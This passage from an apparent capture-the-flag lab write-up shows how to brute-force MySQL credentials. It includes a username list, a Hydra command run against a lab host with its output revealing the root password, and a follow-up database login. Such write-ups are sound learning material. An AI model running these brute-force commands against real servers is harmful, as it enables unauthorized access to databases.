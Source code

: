 ### Bruteforcing password for mysql

To bruteforce the password a list we valid names i create from mysql enumration via the nmap output

```bash
$ cat names.txt
root
netadmin
user
web
guest
sysadmin
administrator
webadmin
admin
test
```
Starting Hydra 

```bash
$ hydra -L names.txt -P /usr/share/wordlists/rockyou.txt 10.10.244.151 mysql
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-24 15:33:58
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 143443990 login tries (l:10/p:14344399), ~35860998 tries per task
[DATA] attacking mysql://10.10.244.151:3306/
[3306][mysql] host: 10.10.244.151   login: root   password: rockyou
[ERROR] Host '10.11.18.173' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

With the password enumeartion of the database can start

### Datbase enumeration

Starting with logging in 

```bash
$ mysql -h 10.10.244.151 -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 50555
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
